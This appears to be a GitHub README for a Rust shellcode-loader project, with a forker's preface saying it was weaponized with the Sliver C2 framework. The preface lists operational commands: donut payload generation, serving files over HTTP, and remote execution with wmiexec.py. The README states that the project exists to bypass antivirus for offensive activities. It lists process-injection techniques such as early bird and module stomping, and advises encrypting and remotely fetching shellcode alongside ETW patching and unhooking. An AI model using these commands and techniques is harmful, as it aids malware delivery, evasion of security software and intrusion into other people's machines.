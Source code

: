edit by Brother-x86:
I just weaponized with Sliver the awesome work done in this repo:
- https://github.com/b1nhack/rust-shellcode

usefull commands (for me):
```
python3 -c "import donut;a=donut.create(file='kaboum.exe',arch=2)"
sudo python3 -m http.server 80
cd ~/rust-shellcode/target/x86_64-pc-windows-gnu/debug/ ;  watch -n1 "ls *exe -lah
cd ~/rust-shellcode/target/x86_64-pc-windows-gnu/release/ ;  watch -n1 "ls *exe -lah
wmiexec.py $(cat ~/.exec)
```

This is the original Readme:

# 🤖 rust-shellcode 🤖
This project provides the underlying support for bypass av of offensive activities.  
The available Shellcode loaders include:
* [asm](#asm)
* [create_fiber](#create_fiber)
* [create_process](#create_process)
* [create_remote_thread](#create_remote_thread)
* [create_remote_thread_native](#create_remote_thread_native)
* [create_thread](#create_thread)
* [create_thread_native](#create_thread_native)
* [early_bird](#early_bird)
* [etwp_create_etw_thread](#etwp_create_etw_thread)
* [memmap2_transmute](#memmap2_transmute)
* [module_stomping](#module_stomping)
* [nt_queue_apc_thread_ex_local](#nt_queue_apc_thread_ex_local)
* [rtl_create_user_thread](#rtl_create_user_thread)

## Build
This is a rust project, you need install [rust](https://www.rust-lang.org/) first.  
Then, you can build with follow command:

```shell
cargo build --release
```

Binarys in `target/release`

## How to use
This project is just a basic demo, you need to choose the right loading method, 
encrypt the SHELLCODE, download the SHELLCODE from the internet, 
or use it with ETW patch, unhooking, etc.

## asm
SHELLCODE execute locally.
1. link SHELLCODE to .text section
2. inline asm using asm! macro
3. call SHELLCODE
